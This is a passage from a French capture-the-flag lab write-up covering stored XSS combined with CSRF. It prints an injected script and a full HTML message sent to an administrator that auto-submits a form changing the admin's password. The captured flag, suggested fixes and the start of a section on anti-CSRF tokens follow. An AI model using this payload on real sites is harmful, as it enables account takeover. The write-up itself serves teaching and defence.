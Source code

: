 ```html
<script>
  document.CSRFExploit.submit();
</script>
```

- **Explication** : Nous avons injecté cette payload JavaScript dans le message destiné à l’administrateur. Lorsqu’il ouvre le message, le script est exécuté et soumet le formulaire CSRF pour changer son mot de passe à son insu. Cette attaque fonctionne parce que le serveur n’assainit pas correctement les entrées avant de les stocker et de les afficher, permettant l’exécution de scripts malveillants.

### 2.5. Flag et correction

- **Flag** : Le flag a pu être trouvé en cliquant sur la page admin, lorsque nous sommes connectés en tant qu'admin.
  - Message obtenu : `Congratulation ! You flag is : lyf7ZPopOetX/a4V`
- **Solution** : Voici quelques suggestions brèves et perspicaces pour corriger les vulnérabilités :

1. **Protection contre CSRF** :
   - **Implémenter des jetons anti-CSRF** dans tous les formulaires critiques. Chaque requête POST doit inclure un jeton unique, validé côté serveur.

2. **Filtrage des entrées pour XSS** :
   - **Échapper les entrées utilisateur** avant de les stocker ou afficher. Cela empêche l'exécution de code JavaScript injecté dans les pages.

3. **En-têtes de sécurité** :
   - Utiliser les en-têtes **Content-Security-Policy (CSP)** pour limiter l'exécution de scripts non autorisés, et **X-Content-Type-Options** pour empêcher le traitement incorrect de fichiers.

Ces mesures renforcent la sécurité contre CSRF et XSS en bloquant les vecteurs d'attaque courants.

**Message entier envoyé à l'admin :**

```html
<html>
  <body>
    <form name="CSRFExploit" method="post" action="profile/ouweis.harun_admin"> 
      <input type="password" name="password" value="Ouweisgg"> 
    </form>
    <script>
      document.CSRFExploit.submit() 
    </script>
```

## 3. CSRF Avancée

### 3.1. Fonctionnement d’un jeton anti-CSRF

- **Description** :  Un **jeton anti-CSRF** est un identifiant unique généré côté serveur et inclus dans chaque formulaire pour empêcher les attaques CSRF. Il est envoyé avec la requête POST et validé par le serveur. Si le jeton est absent ou incorrect, la requête est rejetée.
